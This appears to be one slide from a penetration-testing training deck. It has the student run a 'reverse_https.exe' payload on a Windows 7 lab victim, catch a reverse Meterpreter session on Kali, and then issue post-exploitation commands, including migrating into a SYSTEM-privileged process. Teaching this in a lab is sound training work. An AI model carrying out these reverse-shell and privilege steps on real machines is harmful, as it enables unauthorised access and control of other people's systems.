

# Exploitations and Actions on Target
On Windows 7 victim machine run reverse_https.exe
On Kali you should receive a reverse meterpreter
connection!
Do some actions on target:
meterpreter > getuid
meterpreter > getprivs
meterpreter > ps
meterpreter > migrate 1392	(any System privilege process or  a more consistent process such as Explorer.exe)
meterpreter > getuid

BORROWED